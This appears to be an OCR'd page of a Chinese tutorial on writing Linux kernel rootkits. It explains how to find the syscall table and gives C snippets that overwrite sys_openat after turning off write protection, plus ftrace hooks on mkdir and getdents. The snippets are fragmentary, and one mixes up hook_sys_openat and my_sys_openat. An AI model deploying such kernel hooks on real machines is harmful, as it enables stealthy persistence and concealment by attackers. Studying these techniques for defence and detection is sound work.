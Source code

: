 - 使用kallsyms
- 使用ftrace
- 暴力枚举

注意，由于rootkit与系统内核版本是强相关的，所以对于不同的内核，查找系统调用表的方式也不同，比如有的版本的内核无法使用kallsyms得到系统调用表地址，那么就可以考虑使用ftrace

使用kallsyms：

```c
//函数声明，real_sys_openat是真实的sys_openat函数
static asmlinkage long (*real_sys_openat)(const struct pt_regs *);

//函数声明,hook_sys_openat我们自己实现的sys_openat函数
asmlinkage long hook_sys_openat(const struct pt_regs *);

//获取系统调用表地址
real_sys_call_table = (void *)kallsyms_lookup_name("sys_call_table");

//保存原来的kill函数的地址，最后需要恢复原状
real_sys_openat = (void *)real_sys_call_table[__NR_openat];

// 关闭写保护
disable_wp();

//将真实的sys_openat函数地址映射到我们自己写的openat函数地址处，偷梁换柱
real_sys_call_table[__NR_openat] = (void *)my_sys_openat;

// 恢复现场，打开写保护
enable_wp();
```

使用ftrace：

```c
//在头文件中写上hook数组
struct ftrace_hook hooks[] = {
    HOOK("__x64_sys_mkdir", hook_mkdir, &orig_mkdir),
    HOOK("__x64_sys_getdents", hook_getdents, &orig_getdents)};
    
//在模块初始化时执行hook安装
fh_install_hooks(hooks, ARRAY_SIZE(hooks));

//在模块卸载化时执行hook卸载
fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
```

在某些内核版本中，`/proc/kallsyms`文件存储了系统调用和系统调用的地址信息，我们可以使用命令行获取：

```c
cat /proc/kallsyms | grep xxx
```



同样的，对于不同的内核，系统调用函数的声明不同，这是一个对比：

```c
// 旧
int getdents(unsigned int fd, struct linux_dirent *dirp,
                    unsigned int count);

// 新
asmlinkage long sys_getdents(unsigned int fd,
				struct linux_dirent __user *dirent,
				unsigned int count);
```
